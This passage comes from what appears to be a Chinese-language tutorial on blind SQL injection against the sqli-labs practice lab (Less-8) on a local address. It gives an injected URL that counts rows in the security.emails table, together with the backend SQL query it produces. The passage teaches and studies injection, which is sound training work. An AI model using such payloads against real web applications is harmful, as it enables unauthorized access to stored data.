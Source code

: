 ```
105		100
i		d
```

![](盲注/photo/21.jpg)

### 获取记录

获取记录方法同获取列名方法一样，故不再赘述，直接给出URL和后端程序所执行的SQL语句。

#### 获取记录条数

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(id)%20from%20security.emails)=8%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(id) from security.emails)=8#' LIMIT 0,1
;
```
